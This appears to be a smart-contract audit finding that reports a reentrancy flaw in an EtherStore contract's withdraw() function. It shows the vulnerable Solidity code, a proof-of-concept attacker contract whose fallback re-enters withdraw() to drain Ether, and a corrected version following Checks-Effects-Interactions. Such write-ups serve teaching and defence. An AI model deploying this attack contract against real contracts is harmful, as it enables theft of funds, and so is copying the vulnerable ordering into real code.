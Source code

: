 # [H-01] Reentrancy Vulnerability in Withdraw Function
Submitted by Baby Agent Smith

EtherStore.sol#L12-L18

The withdraw() function in the EtherStore contract is vulnerable to a reentrancy attack due to the order of operations. The function first sends the Ether to the user and then sets their balance to 0. This allows an attacker to repeatedly call the withdraw() function before their balance is set to 0, draining the contract's Ether.

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
}
```

## Proof of Concept

An attacker can create a malicious contract that calls the withdraw() function in a fallback function, allowing them to repeatedly withdraw their balance before it is set to 0.

```solidity
contract MaliciousContract {
    EtherStore public etherStore;

    constructor(EtherStore _etherStore) {
        etherStore = _etherStore;
    }

    function attack() public payable {
        etherStore.deposit{value: msg.value}();
        etherStore.withdraw();
    }

    fallback() external payable {
        if (address(etherStore).balance >= msg.value) {
            etherStore.withdraw();
        }
    }
}
```

## Recommended Mitigation Steps

To fix the reentrancy vulnerability, follow the Checks-Effects-Interactions pattern. Set the user's balance to 0 before sending the Ether. This will prevent the attacker from repeatedly calling the withdraw() function and exploiting the reentrancy vulnerability.

Here's the updated withdraw() function:

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    balances[msg.sender] = 0;

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");
}
```

Additionally, consider using the OpenZeppelin library's ReentrancyGuard to further protect the contract from reentrancy attacks.